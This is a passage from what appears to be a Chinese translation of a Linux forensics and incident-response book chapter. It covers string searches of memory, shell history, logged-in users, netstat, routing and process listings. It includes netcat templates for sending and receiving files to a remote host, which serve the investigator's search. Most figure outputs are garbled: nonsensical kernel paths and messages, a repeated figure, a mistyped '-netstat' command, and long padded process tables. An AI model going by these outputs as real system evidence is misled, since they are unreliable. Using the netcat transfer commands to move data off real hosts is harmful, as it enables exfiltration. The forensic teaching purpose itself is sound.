因此，如你所见，这是在运行系统或启动镜像上执行字符串搜索的一种简单而有效的方法。请记住，虚拟内存、物理内存和交换分区中的页面是以无组织的方式被覆盖的。这意味着你的尝试可能会碰钉壁，或者可能是无效的。请将从此过程中获得的信息与在调查过程中获得的其他信息结合使用。

## 行业技巧

操作系统不会在你的搜索请求中要求你“提供更具体的内容”。简单来说，你将得到你想要查找的内容。因此，你必须知道如何正确地堆叠搜索参数，以使你的关键词搜索尽可能高效且有效。

在这个示例中，我将再次使用我的 Ubuntu 7.10 (Gutsy) 机器。在图 4.5 中，你可以看到我针对 `kcore_strings` 对“nc”一词执行了关键词搜索。

### 图 4.5 关键词搜索



```
$ which nc -dev table help
347016 : no more than memory requires, truncating
347017 : /usr/bin/nc --help: respect/help:bounce-hlo
347022 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/truncate.c
347023 : <allocation failed to output stream> smalloc(size)=to increase
347024 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/swaps.h
347025 : size
340912 : higher bounce pool size
350710 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/include/bitool.h
350711 : no bounce
350712 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/include/quantaux.h
350714 : <locks delete fault> fmap: no
350715 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/include/module.h
350718 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/include/bin/bixe.h
350719 : to mount
351082 : VR group id is incomplete (ndmx2)
350375 : findmap complete
350376 : fuzzy_cache
354001 : yptr
354819 : Energy sync
350678 : port_datagram
350679 : sysctl
356804 : <include duplicate oracceptable
356805 : /usr/lib/buildid/build-linux-gnu-2.6.28-22/include/fs.h
357035 : <security>: avxtbd truncated
357121 : avxtbd: truncated source
357122 : avxtbd: truncated type
357123 : avxtbd: truncated list
357198 : avxtbd: truncated table
357224 : <security>: truncated range
357225 : <security>: truncated list
357368 : <security>: class is incorrect, found but bs
357294 : <security>: length of id has value
357418 : <security>: the definition of a class is incorrect
357419 : retry_error
357420 : retry_async
356842 : vfs
```

可以看到对术语“nc”的搜索产生了包含“n”和“c”的条目。这显然不是一个干净的搜索，因此我必须完善我的参数以获得更有用的信息。利用我对 netcat 的了解，它可以发送或接收信息。

```
nc <host.com> (or IP address) <port> <infile
```

接收文件的命令是：

```
nc -l <port> > outfile
```

根据这些信息，我可以完善搜索以查看主机是否使用了 netcat 发送或接收文件。在图 4.6 中，我将看到我的搜索没有产生任何命中，我可以安全地假设主机没有使用“nc -l”。

# 第4章 - 初步分类与响应：数据分析

## 4.6 搜索无结果



```
$ root@debian-Terminal
304532:Allocation failed: out of space - use --size=to increase
304533:No space left on device /dev/sda1 (2.2.32-6.22.0/mount.c)
304534:iso boot size: 64 pages
304535:copying linux-kernel.map
304536:301204:/usr/include/linux-source-2.2.32-6.22.0/include/linux/bit/spinlock.h
304537:305268:/usr/include/linux-source-2.2.32-6.22.0/include/linux/qtopaps.h
304538:<4> fails: bad magic number in fs_struct
304539:305124:/usr/include/linux-source-2.2.32-6.22.0/include/linux/module.h
304540:305472:/usr/include/linux-source-2.2.32-6.22.0/include/linux/
346819:find -name /build/linux-source-2.6.26-22/include/linux/*
346820:find -name /build/linux-source-2.6.26-22/include/linux/swapper.h
346821:find -name build/linux-source-2.6.26-22/include/linux/vis_coll_to_increase_size
346822:find -name /build/linux-source-2.6.26-22/mm/bounce.c
346823:find -name /build/linux-source-2.6.26-22/include/bit/spinlock.h
346824:find -name /build/linux-source-2.6.26-22/include/module.h
346825:find -name /build/linux-source-2.6.26-22/include/linux/fs.h
346826:Memory used
346827:Referred:
346828:-v0 kB
346829:-o no-atime,notime (vndx)
346830:Emergency Room not complete
346831:free_dump complete
346832:facct_sync
346833:max_nr_instances
346834:Truncating dentry -v =
346835:security: avtabd: incompatible mount options
346836:security: avtabd: truncated entry
346837:security: avtabd: truncated source
346838:security: avtabd: truncated type
346839:security: avtabd: truncated list
346840:security: avtabd: truncated range
346841:security: avtabd: truncated context
346842:security: avtabd: truncated class
346843:security: avtabd: should_be
346844:security: avtabd: has value
346845:security: avtabd: the definition of a class
346846:security: avtabd: fuse
346847:security: avtabd: report
346848:root@forensic:~
```

接下来，如图 4.7 所示，我可以完善搜索以查看主机是否使用了 netcat 发送或接收文件。

### 图 4.7 新搜索



```
$ root@debian-Terminal
304532:Allocation failed: out of space - use --size=to increase
304533:No space left on device /dev/sda1 (2.2.32-6.22.0/mount.c)
304534:iso boot size: 64 pages
304535:copying linux-kernel.map
304536:301204:/usr/include/linux-source-2.2.32-6.22.0/include/linux/bit/spinlock.h
304537:305268:/usr/include/linux-source-2.2.32-6.22.0/include/linux/qtopaps.h
304538:<4> fails: bad magic number in fs_struct
304539:305124:/usr/include/linux-source-2.2.32-6.22.0/include/linux/module.h
304540:305472:/usr/include/linux-source-2.2.32-6.22.0/include/linux/
304541:context truncated
350719:to mount
351082:VR group id is incomplete (ndmx2)
350375:findmap complete
350376:fuzzy_cache
354001:yptr
354819:Energy sync
350678:port_datagram
350679:sysctl
356804:<include duplicate oracceptable
356805:/usr/lib/buildid/build-linux-gnu-2.6.28-22/include/fs.h
357035:<security>: avxtbd truncated
357121:avxtbd: truncated source
357122:avxtbd: truncated type
357123:avxtbd: truncated list
357198:avxtbd: truncated table
357224:<security>: truncated range
357225:<security>: truncated list
357368:<security>: class is incorrect, found but bs
357294:<security>: length of id has value
357418:<security>: the definition of a class is incorrect
357419:retry_error
357420:retry_async
356842:vfs
root@forensic:~#
```


## 第 4 章 • 初步分检与现场响应：数据分析

## 用户活动

## Shell 历史

在任何调查中，了解谁做了什么始终至关重要。幸运的是，Linux 默认会在 shell 历史记录中保留用户活动，这些记录位于 `/home/<user>` 目录下的 shell 历史文件中。请记住，shell 历史仅是对话一侧的记录，它不会显示系统对特定命令的响应。因此，虽然收集命令行输入的信息是一项良好的数据采集技术，但像其他任何手段一样，它应该与调查中检索到的其他数据结合使用。

在我的示例中，我再次使用了 Ubuntu 7.10 (Gutsy) 发版。要找到系统中存在的历史文件，我只需输入：

```
locate bash_history
```

请注意，此命令只会给你提供 `.bash_history` 文件。其他 Shell 会创建其他的历史文件。最流行的 Shell 将其历史文件存储在位于 `/home/<user>` 目录下的以下位置：

- BASH: .bash_history
- C-Shell: history.csh
- Korn: .sh_history
- POSIX: .sh_history
- Z-Shell: .history

再次，默认情况下，大多数 Linux 变体维护 500 行的命令历史。要查看系统的当前命令历史，请输入：

```
echo $HISTSIZE
```

像 Linux 中其他情况一样，此环境变量可以在单个用户的 `.profile` 文件中配置。如果你发现 `HISTSIZE` 已被修改为默认值，请记录这一点，并与客户的系统管理员联系，确认这是他们方面的配置更改，还是入侵者恶意为之（特别是当该值被恶意设置为 0 时）。

随附工具中包含两个脚本，用于简化 shell 历史文件的解析。第一个脚本名为 `history_search.sh`。它获取本地主机上所有用户历史记录文件的命令，删除重复项，并将它们放入单个文件 `outfile` 中。例如，如果发现了诸如 `msf` 的命令，这表明用户从命令行调用了 Metasploit Framework。你还可以使用第二个脚本 `user_driller.sh` 来找出是哪个用户输入了特定命令。该脚本将创建一个 `driller` 目录。注意：shell 历史文件的局限性在于，除了访问控制 (MAC) 时间外，没有时间戳。了解文件中输入了什么对于构建主机上发生了什么非常有用。

## 登录系统的数据

在分析易失性数据时，了解哪些用户当前登录到系统是重要的。大多数入侵者并不愚蠢，他们会利用现有的用户 ID 执行非法活动。与 shell 历史类似，必须进行额外的日志关联分析以确定这些活动是正常业务还是入侵者的行为。

`who` 和 `w` 命令的输出位于图 4.8。其结果可能需要更多信息来完全理解用户正在的操作。

## 图 4.8 "who" 和 "w" 的输出

表头显而易见。所示字段显示了当前时间、系统运行时间、当前登录的用户数以及系统负载。然而，让我们深入了解每个列出的项目：

- **User**: 用户名
- **TTY**: 终端。在旧时代，终端是直接连接到打印机的键盘。当 `tty` 为零时，表示从控制台登录。当 `tty` 为 `pts` 或 `tty` 时，表示通过网络登录。
- **From**: 显示用户登录的位置。在图 4.8 中，"0" 或 ":0" 表示从控制台登录。例如，通过 SSH 进入网络上的另一台机器，此时 IP 地址或完全限定域名 (FQDN) 会取代 "0"。
- **Login**: 显而易见。显示上次登录的时间。
- **Idle**: 显示自上次活动以来的时间。如果你看到用户空闲时间很久，此信息具有特定价值。
- **JCPU**: 连接到 tty 的所有进程使用的 CPU 时间。不包括过去的作业，但包括当前的后台作业。
- **PCPU**: "what" 字段中当前进程所使用的 CPU 时间。
- **What**: 用户当前运行的进程是什么。

## 网络连接

回想引言，我将信息的缺失称为“负面证据”。虽然证明负面证据的数据主要位于客户的网络中，但本地连接同样有用。通过运行 `netstat -an` 命令，你可以查看主机与主机之间建立了哪些连接，使用了哪些端口以及该连接的状态（LISTEN、ESTABLISHED 或 CLOSE_WAIT）。

### 图 4.9 建立的连接

| Proto | Recv-Q | Send-Q | Local Address | Foreign Address | State |
| :--- | :--- | :--- | :--- | :--- | :--- |
| tcp | 0 | 0 | 127.0.0.1:5151 | 0.0.0.0:* | LISTEN |
| tcp | 0 | 0 | 192.168.1.138:443 | 10.0.2.2 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:52867 | 208.67.44.143 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53192 | 216.239.174.158 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53205 | 172.217.12.146 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53218 | 104.251.24.172 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53244 | 54.224.167.104 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53256 | 131.107.215.235 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53268 | 52.90.111.187 | ESTABLISHED |
| tcp | 0 | 0 | 192.168.1.138:53292 | 205.231.135.190 | ESTABLISHED |

活跃 UNIX 套接（服务器和已建立）

| Proto | Recv-Q | Send-Q | Local Address | Foreign Address | Path |
| :--- | :--- | :--- | :--- | :--- | :--- |
| unix | 0 | 0 | 17843 | | /var/run/docker.socket |
| unix | 0 | 0 | 17844 | | /var/run/docker.rocket |
| unix | 0 | 0 | 17845 | | /var/run/docker.socket |
| unix | 0 | 0 | 17846 | | /var/run/docker.socket |
| unix | 0 | 0 | 17847 | | /var/run/docker.socket |
| unix | 0 | 0 | 17848 | | /var/run/docker.socket |
| unix | 0 | 0 | 17849 | | /var/run/docker.socket |
| unix | 0 | 0 | 17850 | | /var/run/docker.socket |
| unix | 0 | 0 | 17851 | | /var/run/docker.socket |
| unix | 0 | 0 | 17852 | | /var/run/docker.socket |
| unix | 0 | 0 | 17853 | | /var/run/docker.socket |
| unix | 0 | 0 | 17854 | | /var/run/docker.socket |
| unix | 0 | 0 | 17855 | | /var/run/docker.socket |
| unix | 0 | 0 | 17856 | | /var/run/docker.socket |
| unix | 0 | 0 | 17857 | | /var/run/docker.socket |
| unix | 0 | 0 | 17858 | | /var/run/docker.socket |
| unix | 0 | 0 | 17859 | | /var/run/docker.socket |
| unix | 0 | 0 | 17860 | | /var/run/docker.socket |
| unix | 0 | 0 | 17861 | | /var/run/docker.socket |
| unix | 0 | 0 | 17862 | | /var/run/docker.socket |
| unix | 0 | 0 | 17863 | | /var/run/docker.socket |
| unix | 0 | 0 | 17864 | | /var/run/docker.socket |
| unix | 0 | 0 | 17865 | | /var/run/docker.socket |
| unix | 0 | 0 | 17866 | | /var/run/docker.socket |
| unix | 0 | 0 | 17867 | | /var/run/docker.socket |
| unix | 0 | 0 | 17868 | | /var/run/docker.socket |
| unix | 0 | 0 | 17869 | | /var/run/docker.socket |
| unix | 0 | 0 | 17870 | | /var/run/docker.socket |
| unix | 0 | 0 | 17871 | | /var/run/docker.socket |
| unix | 0 | 0 | 17872 | | /var/run/docker.socket |
| unix | 0 | 0 | 17873 | | /var/run/docker.socket |
| unix | 0 | 0 | 17874 | | /var/run/docker.socket |
| unix | 0 | 0 | 17875 | | /var/run/docker.socket |
| unix | 0 | 0 | 17876 | | /var/run/docker.socket |
| unix | 0 | 0 | 17877 | | /var/run/docker.socket |
| unix | 0 | 0 | 17878 | | /var/run/docker.socket |
| unix | 0 | 0 | 17879 | | /var/run/docker.socket |


# 初始分检与现场响应：数据分析 • 第 91 章

对于未连接的套字，如果其对应的进程正在等待连接请求。其他标志位通常不予关注。

- **类型 (Type)**：套字访问的类型：
    - **DGRAM** 用于数据报（无连接）模式
    - **STREAM** 流式（连接）套字
    - **RAW** 原始套字
    - **RDM** 可靠递送的消息
    - **SEQPACKET** 顺序数据包套字
    - **PACKET** 原始接口访问套字

- **状态 (State)**：
    - **FREE** 未分配
    - **LISTENING** 正在监听连接请求。这些套字套字仅在设置了 -a 开关时才会显示。
    - **CONNECTING** 正在建立连接。
    - **CONNECTED** 已连接。
    - **DISCONNECTING** 正在断开。
    - **(empty)** 未连接到另一个套字。

最后两列是 I-Node 和路径（Path），它们标识附加到套字上的进程。由于可能会出现大量条目，而你无法判断哪些是正常的、哪些不是，请务必联系客户的系统和网络管理员，帮助你建立“正常”运行参数的基准。此外，仅使用互联网搜索引擎就可以为你提供有关进程性质的良好信息。由于进程非常多，这应该仅用于那些看起来可能超出客户管理员团队判定的正常范围的进程。

带有“-rn”开关的 `netstat` 命令将显示主机的路由表。（见图 4.10。）

## 图 4.10 显示主机路由表

```
root@Forensic3:#
root@Forensic3:# -netstat -rn
Kernel IP routing table
Destination     Gateway      Genmask      Flags  MSS Window  irtt Iface
192.168.10.10   0.0.0.0      255.255.255.0   U       0             0       0 eth0
0.0.0.0         192.168.10.100  0.0.0.0        UG      0             0       0 eth0
root@Forensic3:# 
```

如图 4.10 所示，你可以看到路由的去向以及在使用哪个网关。在没有使用网关的情况下，该列将显示一个星号 (*)。下一列显示路由的“通用性”，换句话说，就是该特定路由的网掩码。再一列显示可以设置的标志。标志分解如下：

- Gateway（网关）
- 正在使用的接口已启用（Up）
- 通过该路由只能到达单个主机，例如环回地址
- 路由路由是动态创建的（Dynamically）
- 已由互联网控制消息协议 (ICMP) 重定向修饰
- ! 该路由为拒绝（reject），数据包将被丢弃

## 运行进程 (Running Processes)

了解你正在分析的主机上运行了什么是非常重要的。这可以通过几个不同的命令来实现。在本书中，我只涵盖了“ps aux”和“top”（见图 4.11。）

## 图 4.11 "ps aux" 和 "top"

| USER | PID | TTY | PRIME | %MEM | %CPU | VSZ | RSS | STAT | START | TIME | COMMAND |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| root | 2 | | | 0 | 0 | 0 | 16888 | S | Apr 10 | 0 | [kthread] |
| root | 3 | | | 0 | 0 | 0 | 16888 | S | Apr 10 | 0 | [kthread/2] |
| root | 4 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/3] |
| root | 5 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/4] |
| root | 6 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/5] |
| root | 7 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/6] |
| root | 8 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/7] |
| root | 9 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [kthread/8] |
| root | 10 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/1] |
| root | 11 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/2] |
| root | 12 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/3] |
| root | 13 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/4] |
| root | 14 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/5] |
| root | 15 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/6] |
| root | 16 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/7] |
| root | 17 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/8] |
| root | 18 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/9] |
| root | 19 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/10] |
| root | 20 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/11] |
| root | 21 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/12] |
| root | 22 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/13] |
| root | 23 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/14] |
| root | 24 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/15] |
| root | 25 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/16] |
| root | 2114 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [unknown] |
| root | 2115 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [unknown] |
| root | 2116 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [unknown] |
| root | 2117 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [unknown] |
| root | 2118 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/bin] |
| root | 2119 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2120 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2121 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2122 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2123 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2124 | | | 0 | 0 | 0 | 31564 | S | Apr 10 | 0 | [/usr/lib/firefox-bin] |
| root | 2221 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/17] |
| root | 2222 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/18] |
| root | 2223 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/19] |
| root | 2224 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/20] |
| root | 2225 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/21] |
| root | 2226 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/22] |
| root | 2227 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/23] |
| root | 2228 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/24] |
| root | 2229 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/25] |
| root | 2230 | | | 0 | 0 | 0 | 10234 | S | Apr 10 | 0 | [events/26] |
| root | 2501 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [journald] |
| root | 2502 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [daemon] |
| root | 2503 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [cron] |
| root | 2504 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [klogd] |
| root | 2505 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-udev] |
| root | 2506 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-udev] |
| root | 2507 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-resolve] |
| root | 2508 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-resolve] |
| root | 2509 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-timesd] |
| root | 2510 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-timesd] |
| root | 2511 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-logd] |
| root | 2512 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-logd] |
| root | 2513 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-logd] |
| root | 2514 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-logd] |
| root | 2515 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [systemd-logd] |
| root | 2516 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2517 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2518 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2519 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2520 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2521 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2522 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2523 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2524 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2525 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2526 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2527 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2528 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2529 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2530 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2531 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2532 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2533 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2534 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2535 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2536 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2537 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2538 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2539 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2540 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2541 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2542 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2543 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2544 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2545 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2546 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2547 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2548 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2549 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2550 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2601 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2602 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2603 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2604 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2605 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2606 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2607 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2608 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2609 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2610 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2611 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2612 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2613 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2614 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2615 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2616 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2617 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2618 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2619 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2620 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2621 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2622 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2623 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2624 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2625 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2626 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2627 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2628 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2629 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |
| root | 2630 | | | 0 | 0 | 0 | 7696 | S | Apr 10 | 0 | [dlogd] |

了解你正在分析的主机上运行了什么是非常重要的。这可以通过几个不同的命令来实现。在本书中，我只涵盖了“ps aux”和“top”（见图 4.11。）

`ps aux` 命令以 BSD 语法显示所有运行的进程，如图 4.11 所示，输出被分为 11 列。在取证调查中，这些列中最重要的“USER”、“TTY”和“COMMAND”。取决于你想要确定的，每一列都有其重要性，并且可以使用文本工具（如 Textpad!）或从命令行中使用 `grep` 进行解析。无论情况如何，这些条目都会告诉你是谁启动了进程、从哪里启动、何时启动以及使用了什么命令。


## 第 4 章 • 初始分检与现场响应：数据分析

